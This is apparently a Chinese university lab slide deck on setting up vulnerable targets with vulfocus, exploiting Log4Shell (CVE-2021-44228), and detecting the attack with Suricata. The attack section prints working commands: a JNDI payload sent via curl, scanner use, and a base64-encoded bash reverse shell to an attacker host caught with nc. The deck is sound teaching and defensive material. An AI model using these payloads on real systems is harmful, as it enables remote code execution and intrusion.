


# 网络安全综合实验：开源信息系统搭建、加固与漏洞攻防

---

## 内容提纲

* 基础运行环境准备
* 漏洞攻防环境现状
* 漏洞攻防环境搭建
* 漏洞攻击
* 漏洞利用检测
* 漏洞利用防御与加固

# 基础运行环境准备

---

## 二选一

* 直接使用本学期课程实验所用的虚拟机环境
* [再来一遍] 从零开始搭建基础虚拟机环境

---

## 基础虚拟机环境搭建必知必会

* 安装后虚拟机网卡没有分配到 IP ？
* SSH 服务启用与 SSH 免密登录
    * [可选] [vscode remote on win10](https://www.bilibili.com/video/BV1Hb4y1R7FE?p=52)
* [克隆出来的虚拟机 IP 地址一样？](https://c4pr1c3.github.io/LinuxSysAdmin/cloud-init.md.html#/why-reset-machine-id)
* [多重加载镜像制作与使用](https://www.bilibili.com/video/BV1Hb4y1R7FE?p=19)
* 备份与还原
    * 虚拟机快照与还原
    * 默认配置文件编辑前备份

---

## 基础虚拟机环境搭建必知必会（指令汇编）

```bash
# 确保使用 root 权限操作
sudo su -

# 养成良好配置习惯：备份配置文件
cp /etc/network/interfaces /etc/network/interfaces.bak

# 非交互式配置文件内容追加
cat << EOF >> /etc/network/interfaces
allow-hotplug eth0
iface eth0 inet dhcp
allow-hotplug eth1
iface eth1 inet dhcp
EOF

# 手动重启指定网卡
ifdown eth{0,1} && ifup eth{0,1}

# 配置 SSH 服务开机自启动
systemctl enable ssh

# 启动 SSH 服务
systemctl start ssh
```

# 漏洞攻防环境现状

---

## [本课程第 7 章课件中推荐过的训练学习资源](chap0x07.md)

* [https://github.com/c4pr1c3/ctf-games](https://github.com/c4pr1c3/ctf-games) 获得本课程定制的 Web 漏洞攻防训练环境
* [upload-labs 一个使用 PHP 语言编写的，专门收集渗透测试和 CTF 中遇到的各种上传漏洞的靶场](https://github.com/c0ny1/upload-labs)
* [PHP XXE 漏洞与利用源代码分析示例](https://github.com/vulnspy/phpaudit-XXE)
* [vulhub 提供的 XXE 漏洞学习训练环境](https://github.com/vulhub/vulhub/tree/master/php/php_xxe)
* [python-xxe](https://github.com/c4pr1c3/python-xxe)
* [sqli-labs](https://github.com/c4pr1c3/sqli-labs) | [sqli-labs 国内 gitee 镜像](https://gitee.com/c4pr1c3/sqli-labs)
* [一个包含php,java,python,C#等各种语言版本的XXE漏洞Demo](https://github.com/c0ny1/xxe-lab)
* [upload-labs 一个使用 PHP 语言编写的，专门收集渗透测试和 CTF 中遇到的各种上传漏洞的靶场](https://github.com/c0ny1/upload-labs)

---

## [vulhub](https://github.com/topics/vulhub)

* [vulhub/vulhub](https://github.com/vulhub/vulhub)
* [fofapro/vulfocus](https://github.com/fofapro/vulfocus)
* [sqlsec/ssrf-vuls](https://github.com/sqlsec/ssrf-vuls)

# 漏洞攻防环境搭建

---

## 本课程的选型依据

1. 开箱即用，上手难度低
2. 包含「可复现漏洞环境」数量多、涵盖漏洞类型丰富
3. 运行负载低，可个人电脑单机使用

---

## [fofapro/vulfocus](https://github.com/fofapro/vulfocus)

> 🚀Vulfocus 是一个漏洞集成平台，将漏洞环境 docker 镜像，放入即可使用，开箱即用。 

---

### 快速上手 vulfocus

[c4pr1c3/ctf-games - fofapro/vulfocus](https://github.com/c4pr1c3/ctf-games/tree/master/fofapro/vulfocus)

# 漏洞攻击

---

## 从单个漏洞靶标开始

> 一切来自于 **用户输入** 的数据都是不可信的。

1. 找到靶标的【访问入口】
2. 收集【威胁暴露面】信息
3. 检测漏洞存在性
4. 验证漏洞可利用性
5. 评估漏洞利用效果

---

## 以 [log4j2 CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228) 为例

* [CVSS 3.1 标准 10 分(满分) 漏洞](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?name=CVE-2021-44228&vector=AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H&version=3.1&source=NIST)
* [通过 CPE 看懂【相关】受影响软件列表](https://nvd.nist.gov/vuln/detail/CVE-2021-44228/cpes) - CVE 通过 CPE 定义收录的受影响软件列表并不【完整】
    * [fofa.so 的 CVE-2021-44228 影响组件专题页面](https://fofa.so/static_pages/log4j2)
    * [Security Advisories / Bulletins / vendors Responses linked to Log4Shell (CVE-2021-44228)](https://gist.github.com/SwitHak/b66db3a06c2955a9cb71a8718970c592)

---

## 1. 找到靶标的【访问入口】



> 【威胁暴露面】信息已经直接看到了，本次漏洞攻击实验已完成该步骤

---

## 漏洞原理详解

* [从零到一带你深入 log4j2 Jndi RCE CVE-2021-44228漏洞](https://www.anquanke.com/post/id/263325)
* [如何看待log4j2远程代码执行漏洞?](https://www.zhihu.com/question/505025655)
* [CVE-2021-44228 漏洞的历史记录，它是如何引入的](https://blog.cloudflare.com/zh-cn/inside-the-log4j2-vulnerability-cve-2021-44228-zh-cn/)

---

## 3. 检测漏洞存在性 {id="log4shell-check-1"}

* 确认受漏洞影响组件的【版本号】
* 源代码审计

---

### 确认受漏洞影响组件的【版本号】


---

### 靶标环境漏洞源代码反编译

```{.java .number-lines}
// /demo/demo.jar
public class Log4j2RceApplication {
  private static final Logger logger = LogManager.getLogger(com.example.log4j2_rce.Log4j2RceApplication.class);
  
  public static void main(String[] args) {
    SpringApplication.run(com.example.log4j2_rce.Log4j2RceApplication.class, args);
  }
  
  @PostMapping({"/hello"})
  public String hello(String payload) {
    System.setProperty("com.sun.jndi.ldap.object.trustURLCodebase", "true");
    System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase", "true");

    /* 以下为缺陷代码片段开始 */
    logger.error("{}", payload);
    logger.info("{}", payload);
    logger.info(payload);
    logger.error(payload);
    /* 以上为缺陷代码片段结束 */
    return "ok";
  }
}
```

---

## 4. 验证漏洞可利用性 {id="log4shell-poc-1"}

---

* 使用 `PoC` 手动测试 `${jndi:ldap://0qxc3d.dnslog.cn/exp}`
    * 此处域名需要自己手动获取专属随机子域名
* [fullhunt/log4j-scan](https://github.com/fullhunt/log4j-scan)

---

## 4. 验证漏洞可利用性 {id="log4shell-poc-2"}

```{.bash .number-lines}
# 自行替换其中的靶标 URL 和  ldap 协议域名
curl -X POST http://192.168.56.216:49369/hello -d payload='"${jndi:ldap://0qxc3d.dnslog.cn/exp}"'
```

---

## 4. 验证漏洞可利用性 {id="log4shell-poc-3"}

```bash
git clone https://github.com/fullhunt/log4j-scan && cd log4j-scan

# 如果没有安装过 pip
sudo apt update && sudo apt install -y python3-pip

pip3 install -r requirements.txt -i https://pypi.tuna.tsinghua.edu.cn/simple

# 修改 log4j-scan.py
# 手动编辑
# post_data_parameters = ["username", "user", "email", "email_address", "password"]
# 替换为以下内容
# post_data_parameters = ["username", "user", "email", "email_address", "password", "payload"]
# 【或者】使用以下代码无脑替换
sed -i.bak 's/password"/password", "payload"/' log4j-scan.py

# 自行替换其中的靶标 URL
python3 log4j-scan.py --request-type post -u http://192.168.56.216:49369/hello
# [•] CVE-2021-44228 - Apache Log4j RCE Scanner
# [•] Scanner provided by FullHunt.io - The Next-Gen Attack Surface Management Platform.
# [•] Secure your External Attack Surface with FullHunt.io.
# [•] Initiating DNS callback server (interact.sh).
# [%] Checking for Log4j RCE CVE-2021-44228.
# [•] URL: http://192.168.56.216:49369/hello
# [•] URL: http://192.168.56.216:49369/hello | PAYLOAD: ${jndi:ldap://192.168.56.216.379o3109409t4u4rlr7972p9q103qt2zq.interact.sh/8tvw1m5}
# [•] Payloads sent to all URLs. Waiting for DNS OOB callbacks.
# [•] Waiting...
# [!!!] Target Affected
# {'timestamp': '2021-12-21T02:55:30.472289751Z', 'host': '192.168.56.216.379o3109409t4u4rlr7972p9q103qt2zq.379o3109409t4u4rlr7972p9q103qt2zq.interact.sh', 'remote_address': '219.141.176.26'}
```

---

## 5. 评估漏洞利用效果 {id="evaluate-exp-1"}

- [Mr-Xn/JNDIExploit-1](https://github.com/Mr-xn/JNDIExploit-1)
    - [国内镜像下载地址](https://hub.fastgit.org/Mr-xn/JNDIExploit-1/releases/download/v1.2/JNDIExploit.v1.2.zip)

---

## 5. 评估漏洞利用效果 {id="evaluate-exp-2"}

[](https://asciinema.org/a/zWSQCVB2KpizZickmdTHzFDNv)

---

## 5. 评估漏洞利用效果 {id="evaluate-exp-3"}


```bash
shasum -a 256 JNDIExploit-1.2-SNAPSHOT.jar
# c96ce1de7f739575d86f2e558aeb97dc691077b31a1c510a3dabf096c827dfa8  JNDIExploit-1.2-SNAPSHOT.jar

# 获取可用 post-exploit payload 清单
java -jar JNDIExploit-1.2-SNAPSHOT.jar -u 

# 进入靶标容器查看支持的 shell 类型
docker exec -it <container_name> bash
cat /etc/shells
# # /etc/shells: valid login shells
# /bin/sh
# /bin/bash
# /usr/bin/bash
# /bin/rbash
# /usr/bin/rbash
# /bin/dash
# /usr/bin/dash

# 此处省略【手动】测试 reverse shell 的过程

# 192.168.56.214 为【攻击者】主机 IP
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i 192.168.56.214 

# 在【攻击者】主机上提前运行监听程序，等待反弹连接
nc -l -p 7777

# 第一个参数里的 192.168.56.216 是【靶机】IP
# 后续参数里的 192.168.56.214 应是【攻击者】主机 IP
curl http://192.168.56.216:19825/hello -d 'payload=${jndi:ldap://192.168.56.214:1389/TomcatBypass/Command/Base64/'$(echo -n 'bash -i >& /dev/tcp/192.168.56.214/7777 0>&1' | base64 -w 0 | sed 's/+/%252B/g' | sed 's/=/%253d/g')'}'

# 执行完上述【攻击负载】投放代码后，【攻击者】主机的 nc 窗口成功 getshell
```

# 漏洞利用检测

---

## 基本方法

- 面向网络流量的深度包检测
- 运行时应用自我保护
    - Runtime Application Self-Protection (RASP)

---

## 漏洞利用流量检测实战

```bash
# 启动靶机镜像
docker run -d --name log4shell -p 5555:8080 vulfocus/log4j2-rce-2021-12-09:latest

# 启动 suricata 检测容器
# 此处 eth1 对应靶机所在虚拟机的 host-only 网卡 IP
docker run -d --name suricata --net=host -e SURICATA_OPTIONS="-i eth1" jasonish/suricata:6.0.4

# 更新 suricata 规则，更新完成测试完规则之后会自动重启服务
docker exec -it suricata suricata-update -f

# 重启 suricata 容器以使规则生效
# docker restart suricata

# 监视 suricata 日志
docker exec -it suricata tail -f /var/log/suricata/fast.log

# 重复前述【漏洞攻击】实验
# 12/21/2021-08:30:55.434186  [**] [1:2034647:1] ET EXPLOIT Apache log4j RCE Attempt (http ldap) (CVE-2021-44228) [**] [Classification: Attempted Administrator Privilege Gain] [Priority: 1] {TCP} 192.168.56.1:52861 -> 192.168.56.216:5555
# 12/21/2021-08:30:55.434186  [**] [1:2034649:1] ET EXPLOIT Apache log4j RCE Attempt (tcp ldap) (CVE-2021-44228) [**] [Classification: Attempted Administrator Privilege Gain] [Priority: 1] {TCP} 192.168.56.1:52861 -> 192.168.56.216:5555
# 12/21/2021-08:30:55.434186  [**] [1:2034700:1] ET EXPLOIT Apache log4j RCE Attempt - lower/upper TCP Bypass M2 (CVE-2021-44228) [**] [Classification: Attempted Administrator Privilege Gain] [Priority: 1] {TCP} 192.168.56.1:52861 -> 192.168.56.216:5555
# 12/21/2021-08:30:55.434186  [**] [1:2034757:2] ET EXPLOIT Apache log4j RCE Attempt (http ldap) (Outbound) (CVE-2021-44228) [**] [Classification: Attempted Administrator Privilege Gain] [Priority: 1] {TCP} 192.168.56.1:52861 -> 192.168.56.216:5555
# 12/21/2021-08:30:55.434186  [**] [1:2034759:1] ET EXPLOIT Apache log4j RCE Attempt (tcp ldap) (Outbound) (CVE-2021-44228) [**] [Classification: Attempted Administrator Privilege Gain] [Priority: 1] {TCP} 192.168.56.1:52861 -> 192.168.56.216:5555
# 12/21/2021-08:30:55.434186  [**] [1:2034800:2] ET EXPLOIT Apache log4j RCE Attempt - lower/upper TCP Bypass M2 (Outbound) (CVE-2021-44228) [**] [Classification: Attempted Administrator Privilege Gain] [Priority: 1] {TCP} 192.168.56.1:52861 -> 192.168.56.216:5555
# 12/21/2021-08:30:55.434186  [**] [1:2034661:1] ET HUNTING Possible Apache log4j RCE Attempt - Any Protocol (CVE-2021-44228) [**] [Classification: Misc activity] [Priority: 3] {TCP} 192.168.56.1:52861 -> 192.168.56.216:5555
# 12/21/2021-08:30:55.434186  [**] [1:2034783:2] ET HUNTING Possible Apache log4j RCE Attempt - Any Protocol (Outbound) (CVE-2021-44228) [**] [Classification: Misc activity] [Priority: 3] {TCP} 192.168.56.1:52861 -> 192.168.56.216:5555
```

# 漏洞利用防御与加固

---

[](https://www.govcert.admin.ch/blog/zero-day-exploit-targeting-popular-java-library-log4j/)

